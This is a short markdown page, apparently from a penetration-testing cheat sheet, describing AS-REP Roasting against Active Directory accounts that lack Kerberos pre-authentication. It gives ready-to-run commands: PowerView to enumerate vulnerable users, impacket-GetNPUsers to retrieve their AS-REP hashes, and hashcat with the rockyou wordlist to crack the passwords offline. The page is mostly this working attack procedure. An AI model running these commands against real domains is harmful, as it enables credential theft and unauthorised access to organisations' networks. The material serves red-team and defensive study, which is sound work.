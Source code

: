```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AS-REP Roasting

**AS-REP Roasting** targets Active Directory accounts without Kerberos pre-authentication.

The attack is made in few steps:

1. **Attacker requests TGT** from the KDC for a user without pre-authentication.
2. **KDC sends encrypted TGT** to the attacker.
3. **Attacker brute-forces** the TGT offline to obtain the user's password.

## Enumerate <a href="#enumerate" id="enumerate"></a>

Enumerating accounts with Kerberos pre-authentication disabled from inside the network.

{% tabs %}
{% tab title="PowerView" %}
```
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}
{% endtabs %}

## Retrieve the hashes <a href="#crack" id="crack"></a>

```bash
impacket-GetNPUsers <domain_name>/ -no-pass -usersfile <userslist_file>
```

## Crack <a href="#crack" id="crack"></a>

```
hashcat -m 18200 <hashes> /usr/share/wordlists/rockyou.txt
```
